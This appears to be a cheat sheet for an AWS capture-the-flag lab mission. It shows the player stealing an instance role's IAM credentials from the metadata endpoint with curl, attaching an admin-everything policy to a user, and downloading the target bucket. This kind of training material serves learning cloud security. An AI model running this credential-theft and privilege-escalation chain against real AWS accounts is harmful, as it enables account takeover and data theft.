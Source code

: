 # Mission 4 cheat sheet


This mission lets users manipulate new EC2 instances in order to become more familiar with security groups, and has a small IAM component.


  * Given: AWS key, AWS secret key, ssh key
  * Variables: $id


$ `aws configure --profile juan`

Set up the credentials for use. Region is always us-east-1 and json output is recommended.


$ `aws --profile juan ec2 describe-instances`

List the existing instances, since it is not possible to list existing s3 buckets. Note the public and private ip addresses as $public_ip and $private_ip. Note the keypair used as $keypair. You may also want to take note of the AMI used, as $ami_id, and the subnet as  $subnet_id.

Visit the public address in browser if you like.


$ `aws --profile juan ec2 describe-security-groups`

Two security groups are available: "filtered", and "allow". The "allow" group will not block you, so you may use it. Note its id as $sg_id.

NB: The programmer would like to highlight the fact that the user's IP is still used, despite the loss of realism, in order to ensure the security of their account. :)


$ `aws --profile juan ec2 run-instances --image-id $ami_id --instance-type t2.micro --subnet-id $subnet_id --security-group-id $sg-id --key-name AWS-secgame-mission4-keypair-Evilcorp-Evilkeypair-$id --associate-public-ip-address`

Start a new instances using the "allow" security group, and parameters allowing it to connect to the other instance. You may also create a new keypair yourself. Using "t2.micro" as type serves to ensure you remain in free tier. You need to associate a public ip adddress to ensure you can connect using SSH.


$ `ssh -i ssh_key.pem ec2-user@<new instance public ip>`

Connect into the machine. You may also forward the key into it as well if you want.


$ `ssh -i ssh_key.pem ec2-user@$instance_private_ip`

Connect into the filtered machine from an allowed ip.


## Running commands from the instance

$ `aws iam list-users`

Use the instance's credentials to execute commands.


## Alternative: Get the credentials and load them on your own shell

$ `curl 169.254.169.254/latest/meta-data/iam/security-credentials/AWS-secgame-mission4-role-ec2-$id` 

This allows you to get the IAM credentials and write them to your local ~/.aws/credentials file under a named profile.

$ `aws configure --profile mission4-ec2`

Write the access key and secret access key. Add then the security token to your credentials file.

 credentials file

 ---

 [mission4-ec2]
aws_access_key = ASIAXXXXXXXXXXXXX

aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX

aws_session_token = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX...XXXXXXXXXXXXX==


## Using the IAM role

$ `aws iam list-users`

List the users of the account. Find the UserName of user juan that you used before. It will be referred to as $juan_name.


$ `vim admin_policy.json`

Write an administrator policy (example follows) to a local .json file.

Example:
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```


$  `aws iam put-user-policy --user-name $juan_name --policy-name admin --policy-document file://admin.json`

Since the instance may put user policies, update the user policy of user juan with the admin policy.


$ `aws --profile juan s3 ls; aws --profile juan s3 sync s3://secgame-mission4-final-s3-$id ./bucket-data`

Download the data in the final bucket.


$ `cat on_buddha.txt`

You win! Decoding the flag is optional.


## Remember

**Delete anything you created before attempting to destroy the mission, especially the new instance! You can, of course, use the console or the CLI for it with your admin profile.**